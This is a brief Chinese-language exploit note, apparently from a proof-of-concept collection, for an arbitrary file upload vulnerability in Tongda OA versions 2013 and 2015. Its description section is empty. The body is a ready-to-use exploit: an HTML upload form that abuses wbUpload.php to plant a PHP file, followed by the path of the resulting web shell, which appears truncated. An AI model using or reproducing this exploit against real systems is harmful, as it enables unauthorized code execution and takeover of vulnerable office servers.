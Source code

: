 通达oa 任意⽂件上传漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

2013、2015版本

三、复现过程
------------

EXP:

    <form enctype="multipart/form-data" action="http://0-sec.org/general/vmeet/wbUpload.php
    ?fileName=test.php+" method="post">
    <input type="file" name="Filedata" size="50"><br>
    <input type="submit" value="Upload">
    </form>

上传jpg之后shell地址为

    http://0-sec.org/general/vmeet/wbUpload/test.ph
